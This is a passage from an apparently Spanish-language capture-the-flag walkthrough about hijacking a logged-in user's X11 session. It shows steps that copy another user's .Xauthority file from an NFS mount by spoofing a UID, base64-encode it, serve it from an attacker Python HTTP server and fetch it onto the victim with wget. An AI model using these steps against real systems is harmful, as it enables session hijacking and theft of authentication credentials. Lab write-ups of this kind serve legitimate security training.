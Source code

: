 - Podemos suponer que la máquina víctima está usando este `protocolo de pantalla remota X11` por detrás, por lo que podemos obtener, por ejemplo, la captura de algún usuario activo dentro del sistema, entonces, si enumeramos los usuarios conectados en el sistema podemos ver lo siguiente:

```bash
$w
```

```js
01:02:09 up 1 day, 19:36,  1 user,  load average: 3.14, 3.27, 3.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
ross     tty7     :0               Fri05   43:36m  4:53   0.04s /usr/libexec/gnome-session-binary --systemd --session=gnome
```


- Podemos observar que el usuario `"ross"` está conectado dentro del sistema; entonces ahora la idea es usar el protocolo X11 que habíamos encontrado antes para intentar capturar la pantalla del usuario "ross" ya que se encuentra conectado en el sistema, sin embargo, solo es posible capturar la pantalla del usuario con el que estamos conectados actualmente (recordemos que somos el usuario `"alex"`).

- Pero recordemos que anteriormente habíamos montado mediante el servicio NFS el home del usuario "ross", así que accedemos a este en busca del archivo `".Xauthority"` que es el archivo que contiene información de autenticación para el servidor de pantalla X, que es el servidor de ventanas gráficas que se utiliza para ejecutar aplicaciones gráficas en sistemas Unix/Linux.

- Dentro del directorio donde montamos el home de "ross", si vemos los permisos podemos darnos cuenta que el propietario del archivo ".Xauthority" tiene como UID `"1001"`, así que hacemos lo mismo que hicimos pasos anteriores, en este caso, asignándole dicha UID al usuario que ya habíamos creado:


```bash
$usermod -u 1001 prueba
```

- Ahora, transferimos este archivo a la máquina víctima, para esto, lo convertimos en `base64` y lo guardamos en otro directorio de nuestra máquina atacante:

```bash
$cat .Xauthority | base64  > /tmp/xauth
```

- Ahora en este directorio nos montamos un servidor en python:

```bash
$python3 -m http.server
```

- En la máquina víctima, dentro del directorio `"/tmp"` descargamos el archivo:

```bash
$wget 10.10.14.144:8000/xauth
```

- Lo decodeamos y lo renombramos:

```bash
$cat xauth | base64 -d > .Xauthority
```

- Y ahora exportamos este archivo a la variable `"Xauthority"` de nuestro sistema para que el entorno X11 piense que estamos conectados como el usuario "ross":
